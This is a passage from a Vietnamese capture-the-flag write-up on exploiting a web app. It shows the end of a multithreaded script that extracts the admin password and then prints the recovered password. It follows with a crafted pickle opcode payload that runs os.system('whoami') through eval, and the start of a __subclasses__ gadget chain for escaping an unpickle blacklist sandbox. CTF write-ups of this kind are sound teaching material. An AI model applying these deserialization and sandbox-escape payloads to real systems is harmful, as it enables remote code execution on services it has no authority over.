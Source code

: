 ```python
    return None

while True:
    found_char = False
    with ThreadPoolExecutor(max_workers=10) as executor:
        futures = {executor.submit(send_req, c, found): c for c in charset}
        for future in as_completed(futures):
            result = future.result()
            if result is not None:
                found += result
                print(found[1:])
                found_char = True
                break

    if not found_char:
        break
```

ta nhận được mật khẩu của admin và thành công login. `Kpvwmec6swPh6WFFo6BFnf0HKgmr5otfEZj9sSxKNNs9PhsRhCEAOGqVL6VyAiI32EppTmsIeT8kY7aelEvtGkQXsF2t0UKcZmOGvDbPkm6acsKUALXb6zJWmqpRbm8A`

Khi đăng nhập với tài khoản admin ta có thể truy cập page AdminPage và thực hiện hàm unpickle trong `sandbox.py`

```python
payload = (
b'''\x80\x04c__main__
__builtins__.eval
(V__import__('os').system('whoami')
tp0
Rp1
.'''
)
```

Ta sử dụng chain `__main__.__builtins__.eval("__import__('os').system('whoami')")`.
 Như vậy ta thành công vượt qua lớp kiểm tra whitelist ở module. Một 
điểm lưu ý là, ở đây ta cần chỉ rõ protocol được sử dụng là 4 trở lên.

Tiếp theo ta cần phải thực hiện thêm việc bypass logic được thêm: các module
 không được bắt đầu bằng các giá trị trong UNSAFE_NAMES và 
BLACKLISTED_NAMES. Để bypass được ta cần thực hiện một chain phức tạp 
hơn. Một điều khó khăn trong việc craft chain là pickle không hỗ trợ 
việc truy cập trực tiếp value-key như python thông thường mà ta sẽ phải 
tư duy với logic stack để dần truy cập đến attribute mong muốn.

Tuy nhiên, ta không thể trực tiếp craft payload này nhờ opcode vì pickle không hỗ trợ truy cập key-value, ta không thể gọi `__subclasses__()[137]` hay `__globals__['__builtins__']['eval']` trực tiếp. Để giải quyết vấn đề này, ta phải tìm cách truy cập các attribute này nhờ các method callable có sẵn ví dụ `__getattribute__`, `list.__getitem__`, `object.__subclasses__`. Đầu tiên ta cần truy cập tới value index của list `__subclasses__()`

```python
import __main__
def main():pass

mysubclasses = __main__.__class__.__base__.__subclasses__
myatrr = __main__.__class__.__base__.__getattribute__
mysubclasseslist = mysubclasses()                      #[1]
mygetitem = myatrr(mysubclasseslist, '__getitem__')    #[2]
myoswrapclose = mygetitem(155)                         #[3]

print(myoswrapclose) #<class 'os._wrap_close'>
```
